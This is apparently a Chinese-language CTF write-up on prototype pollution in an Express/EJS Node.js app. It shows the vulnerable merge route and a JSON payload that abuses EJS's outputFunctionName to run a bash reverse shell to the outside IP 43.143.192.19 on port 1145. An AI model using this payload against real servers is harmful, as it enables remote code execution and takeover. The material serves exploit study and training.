 ```javascript
app.use(function(req, res, next) {
  next(createError(404));
});

// error handler
app.use(function(err, req, res, next) {
  // set locals, only providing error in development
  res.locals.message = err.message;
  res.locals.error = req.app.get('env') === 'development' ? err : {};

  // render the error page
  res.status(err.status || 500);
  // var o ={}
  // console.log(o.__proto__)
  res.render('error');
});

module.exports = app;

```
```javascript
app.engine('html', require('ejs').__express);
```
 express.engine 方法用于向 Express 注册模板引擎。它将给定的回调函数设置为用于呈现视图的默认模板引擎。<br />这里就给html注册了个ejs引擎。<br />来看原型链污染
```javascript
var express = require('express');
var router = express.Router();
var utils = require('../utils/common');



/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var user = new function(){
    this.userinfo = new function(){
    this.isVIP = false;
    this.isAdmin = false;
    this.isAuthor = false;     
    };
  }
  utils.copy(user.userinfo,req.body);
  if(user.userinfo.isAdmin){
   res.end(flag);
  }else{
   return res.json({ret_code: 2, ret_msg: '登录失败'});  
  }
  
  
});

module.exports = router;

```
utils.copy是EJS模板引擎中的一个工具方法，用于将源对象的属性复制到目标对象中。<br />构造payload
```javascript
{"__proto__":{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/43.143.192.19/1145 0>&1\"');var __tmp2"}}}

```
在ejs.js里面
```javascript
if (opts.outputFunctionName) {
```
